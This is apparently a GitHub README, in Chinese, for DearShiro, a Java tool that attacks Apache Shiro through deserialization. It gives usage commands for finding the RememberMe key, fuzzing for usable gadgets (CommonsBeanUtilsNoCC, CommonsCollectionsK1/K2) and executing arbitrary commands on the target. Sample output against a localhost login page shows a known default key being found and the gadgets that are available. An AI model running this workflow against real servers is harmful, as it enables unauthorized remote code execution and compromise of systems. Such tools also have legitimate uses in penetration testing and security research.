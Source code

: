 # DearShiro

## Start

**一个不万能的Shiro扫描工具**

人类低质量代码，就当练个手。

目前已完成:
- Key的探测
- 可用Gadget的探测
- 利用Gadget执行命令


后续todo:
- 图形化？
- 修复某些未知BUG
- 增加JRMPClient Gadget


由于Shiro在反序列化的时候无法加载除Java本身自带的数组，所以可利用的Gadget有限。

目前可用Gadget:
- CommonsBeanUtilsNoCC
- CommonsCollectionsK1
- CommonsCollectionsK2

## Usage

```python
java -jar dearshiro.jar -m {module} -b {baseurl} [-k] [-g] [-c]

# key module 扫描key
java -jar dearshiro.jar -m "key" -b {baseurl}

# dadgetfuzz module 扫描可用gadget
java -jar dearshrio.jar -m "gadgetfuzz" -b {baseurl} -k {key}

# gadgetexec module 使用gadget执行任意命令
java -jar dearshiro.jar -m "gadgetexec" -b {baseurl} -k {key} -g {gadget} -c {command}
```

初步测试：

```
❯ java -jar dearshiro.jar -m "key" -b "http://127.0.0.1:8000/login.jsp"                                                                              
[+] Test key: 0AvVhmFLUs0KTA3Kprsdag==
[-] Response Code: 200
[+] Test key: kPH+bIxk5D2deZiIxcaaaA==
[-] Response Code: 200
[*] Found Key: kPH+bIxk5D2deZiIxcaaaA==


❯ java -jar dearshiro.jar -m "gadgetfuzz" -b "http://127.0.0.1:8000/login.jsp" -k "kPH+bIxk5D2deZiIxcaaaA=="    
[main] INFO org.reflections.Reflections - Reflections took 18 ms to scan 1 urls, producing 1 keys and 5 values 
[+] Test Gadget: CCK2
[-] Response Code: 200
[+] Test Gadget: NoCC
[-] Response Code: 200
[*] Found Gadget: NoCC
[+] Test Gadget: JRMPClient
[-] Response Code: 200
[+] Test Gadget: CCK1
[-] Response Code: 200
[*] Found Gadget: CCK1
########Available Gadget##########
NoCC
CCK1
########Available Gadget##########

```

